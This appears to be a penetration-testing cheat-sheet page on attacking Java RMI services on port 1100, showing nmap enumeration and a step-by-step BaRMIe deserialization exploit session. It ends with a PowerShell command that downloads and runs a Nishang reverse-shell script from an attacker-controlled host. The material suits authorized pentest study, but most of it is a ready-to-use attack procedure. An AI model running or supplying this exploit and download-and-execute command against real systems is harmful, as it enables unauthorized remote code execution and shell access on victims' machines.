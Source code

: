 ```yaml
---
title: PORT 1100/tcp - Java RMI
category: Services
order: 10
---
```


The Java Remote Method Invocation, or Java RMI, is a mechanism that allows an object that exists in one Java virtual machine to access and call methods that are contained in another one.

## Enumeration

We can enumerate RMI ports with nmap.

```
nmap -sV --script "rmi-dumpregistry or rmi-vuln-classloader" -p <PORT> <IP>

<PORT>/tcp  open  java-rmi     Java RMI
| rmi-dumpregistry:
|   creamtec/ajaxswing/JVMFactory
|     com.creamtec.ajaxswing.core.JVMFactory_Stub
|     @127.0.0.1:49157
|     extends
|       java.rmi.server.RemoteStub
|       extends
|_        java.rmi.server.RemoteObject
```

## BaRMIe.jar

If we can dump the registry of the java-rmi instance is the case where the machine may be vulnerable to a deserialization exploit. To exploit this deserialization on RMI ports I'm going to use BaRMIe.jar. We can download the file on the following link.

* [https://github.com/NickstaDB/BaRMIe/releases/download/v1.01/BaRMIe_v1.01.jar](https://github.com/NickstaDB/BaRMIe/releases/download/v1.01/BaRMIe_v1.01.jar)

You need to select some parameters such as **target**, **attack**, **payload** and **OS command**, here and example of usage with a nishang reverse shell. I used Apache Commons for payload but you can use one different.

```
$ java -jar BaRMIe_v1.01.jar -attack <IP> <PORT>

Target summary:
  <IP>:<PORT>
    Available attacks:
      [---] Java RMI registry illegal bind deserialization

Target selection
 1) <IP>:<PORT> Reliability [---], Deser attack [Y], payload [?]
Select a target to attack (q to quit): 1

Available attacks for target: <IP>:<PORT>
 1) [---] Java RMI registry illegal bind deserialization
Select an attack to execute (b to back up, q to quit): 1

Attack: Java RMI registry illegal bind deserialization [---]

Deserialization payloads for: <IP>:<PORT>
 1) Apache Commons Collections 3.1, 3.2, 3.2.1
 2) Apache Commons Collections 4.0-alpha1, 4.0
 3) Apache Groovy 1.7-beta-1 to 2.4.0-beta-4
 4) Apache Groovy 2.4.0-rc1 to 2.4.3
 5) JBoss Interceptors API
 6) ROME 0.5 to 1.0
 7) ROME 1.5 to 1.7.3
 8) Mozilla Rhino 1.7r2
 9) Mozilla Rhino 1.7r2 for Java 1.4
 10) Mozilla Rhino 1.7r3
 11) Mozilla Rhino 1.7r3 for Java 1.4
 12) Mozilla Rhino 1.7r4 and 1.7r5
 13) Mozilla Rhino 1.7r6, 1.7r7, and 1.7.7.1
 a) Try all available deserialization payloads
Select a payload to use (b to back up, q to quit): 1


Enter an OS command to execute: powershell.exe -command "IEX(new-object net.webclient).downloadstring('http://<ip-kali>/Invoke-PowerShellTcp.ps1')"

```
